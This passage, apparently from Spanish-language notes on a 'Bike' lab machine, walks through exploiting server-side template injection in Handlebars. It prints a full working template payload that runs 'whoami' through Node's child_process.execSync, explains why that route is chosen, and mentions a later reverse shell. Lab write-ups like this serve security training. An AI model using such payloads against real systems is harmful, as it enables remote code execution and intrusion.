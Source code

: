 Esto hay que url encodearlo, hacemos click derecho seleccionando todo el texto y en convert, ponemos URL Enconde

![[Bike8.png]]

Este es el resultado final del payload url encodeado, y nos da el error de require que nos ayuda a responder la pregunta Numero 8 
![[Bike7.png]]


## Ajustamos el payload con variables globales para que funcione

Aca nos ayudamos de la pregunta Numero 9

Vamos a ajustar con variables globales el payload, para que nos de una respuesta y probar si sirve o no el mismo
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

*Cambie esta linea:*

```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

Tuve que usar `process.mainModule.require` en lugar de `require` porque en muchos entornos de Handlebars `require` no está disponible directamente desde el contexto de plantilla, ya sea por sandboxing o por cómo se construyó el entorno. Sin embargo, `process` suele estar expuesto, y a través de `process.mainModule.require` pude cargar módulos de Node.js igual que con `require`.

Cambie `exec` por `execSync` porque `exec` no devuelve el resultado del comando directamente. En cambio, necesita una función extra (llamada **callback**) que se ejecuta después para mostrar el resultado. Como eso no se puede usar dentro de una plantilla, no funciona.
`execSync` sí devuelve el resultado del comando directamente, como un texto, así que puedo mostrarlo en la respuesta del servidor sin complicaciones.
*Igualmente para mandar la [[Reverse shell]]* no hace falta poner el execSync dado que no nos tiene que mandar ningun string en respuesta, eso solamente lo usamos para testear si habia un RCE o no
